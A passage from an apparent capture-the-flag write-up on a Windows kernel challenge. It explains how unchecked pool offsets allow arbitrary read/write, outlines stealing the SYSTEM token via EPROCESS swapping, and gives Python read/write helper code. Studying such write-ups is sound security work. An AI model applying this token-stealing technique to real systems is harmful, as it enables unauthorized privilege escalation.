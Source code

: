 #### Conclusion

As we clearly see there are no checks for the entry offsets, which means that we could provide any data we want and read/write at any offsets from the allocated pool we want.


### Exploit idea

The game plan here is that we are going to:

* Obtain the kernel base (that it prints for us)

* Obtain the process id (that it prints for us too)

* Read the EPROCESS of any system process that has privileged permissions(i.e read any file it wants)

* Find the EPROCESS of our process

* Swap the EPROCESS Token in our process with the systems one 


### Implementing

For the kernel base and process id we just need to read the input that the app is sending us

```py
kernel_base = int(io.recvline().decode().split(': ')[1], 16)
process_id: int = int(io.recvline().decode().split(': ')[1])
```

For the write/read functions we would need to pass an offset from the allocated pool and the kernel part would automatically multiply this value by 8, so we should account for it in our calculations. \
To make my life a bit easier i made these utils to interact with the user-mode challenge part

```py
def skip_options():
    io.recvuntil(b'an option\r\n')


def read_at(off: int) -> int:
    assert(off % 8 == 0)

    io.sendline(b'2')
    io.recvline()
    io.sendline(str(off // 8).encode())
    io.recvline()
    io.recvline()
    v = int(io.recvline().decode().split('ead ')[1].strip())

    skip_options()
    return v


def write_to(off: int, val: int) -> None:
    assert(off % 8 == 0)

    io.sendline(b'1')
    io.recvline()
    io.sendline(str(off // 8).encode())
    io.recvline()
    io.sendline(str(val).encode())
    io.recvline()
    io.recvline()

    skip_options()
```
